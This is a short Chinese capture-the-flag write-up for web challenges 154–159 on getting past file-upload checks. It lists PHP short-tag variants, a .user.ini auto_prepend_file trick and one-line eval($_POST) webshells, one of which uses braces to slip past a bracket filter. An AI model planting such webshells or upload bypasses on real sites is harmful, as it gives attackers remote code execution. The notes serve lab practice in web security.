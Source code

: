 ## web154~155

JS验证 + .user.ini + 短标签

php的标签其他写法，有

```php
(<% echo '123';%>
 <?=(表达式)?>
 <script language=”php”>echo '123'; </script>
```

思路与楼上一致，就是换下 webshell 的写法

```
.user.ini：auto_prepend_file=test.png
test.png：<?=eval($_POST[x]);?>
```

## web156

JS验证+user.ini+短标签+过滤

```
<?=eval($_POST{x}); ?>  //过滤了 [] ,我们换成 {}
```

<img src="图片\Snipaste_2023-02-01_10-54-00.png" alt="Snipaste_2023-02-01_10-54-00" style="zoom:67%;" />

## web157~159

JS验证+user.ini+短标签+过滤

思路与楼上一样，
